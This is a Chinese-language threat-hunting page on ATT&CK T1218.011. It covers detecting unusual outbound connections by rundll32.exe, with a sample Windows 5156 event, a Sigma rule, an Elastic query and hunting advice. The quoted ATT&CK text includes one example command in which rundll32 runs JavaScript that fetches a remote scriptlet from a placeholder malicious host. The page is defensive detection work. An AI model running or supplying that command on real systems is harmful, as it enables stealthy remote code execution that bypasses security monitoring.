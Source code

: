 # T1218-011-win-通过Rundll32的异常网络链接

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。

说明：Rundll32.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Rundll32调用。

windows 2003默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

win7默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需自行配置）

## 测试复现

识别rundll32.exe进行出站网络连接的异常行为。这表明可能存在攻击活动，并可能认识恶意DLL。

## 测试留痕

可参考：[T1218-011-win-基于白名单Rundll32.exe执行payload](https://github.com/12306Bro/Threathunting-book/blob/master/%E6%89%A7%E8%A1%8C/T1218-011-win-%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Rundll32.exe%E6%89%A7%E8%A1%8Cpayload.md)

Examples of 5156

```yml
The Windows Filtering Platform has allowed a connection.

Application Information:

  Process ID: 1752
  Application Name: \device\harddiskvolume1\windows\system32\dns.exe

Network Information:

  Direction: Inbound
  Source Address: 10.45.45.103
  Source Port: 53
  Destination Address: 10.45.45.103
  Destination Port: 50146
  Protocol: 17

Filter Information:

  Filter Run-Time ID: 5
  Layer Name: Receive/Accept
  Layer Run-Time ID: 44
```

## 检测规则/思路

### sigma

```yml
title: 检测通过Rundll32的异常网络链接行为
description: 通过windows日志来检测通过Rundll32的异常网络链接行为
status: experimental
references:
    - https://www.elastic.co/guide/en/siem/guide/current/unusual-network-connection-via-rundll32.html
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.T1085
    - attack.TA0002
date: 2020/12/2
logsource:
    category: process_creation
    product: windows
detection:
    selection1:
        EventID: 5156
        Process.name: 'rundll32.exe' #Application Name
    selection2:
        Destination Address:
                        - 10.0.0.0/8
                        - 172.16.0.0/12 
                        - 192.168.0.0/16
    condition: selection1 and not selection2
level: low
```

### Elastic rule query

```yml
process.name:rundll32.exe and event.action:"Network connection
detected (rule: NetworkConnect)" and not destination.ip:(10.0.0.0/8 or
172.16.0.0/12 or 192.168.0.0/16 or 127.0.0.0/8)
```

### 建议

通过进程监控来检测和分析rundll32.exe的执行和参数。比较rundll32.exe的近期调用与历史已知合法参数及已加载动态链接库来确定是否有异常和潜在的攻击活动。在rundll32.exe调用之前和之后使用的命令参数也可用于确定正在加载的动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1218-011

<https://attack.mitre.org/techniques/T1218/011/>

通过Rundll32的异常网络链接

<https://www.elastic.co/guide/en/siem/guide/current/unusual-network-connection-via-rundll32.html>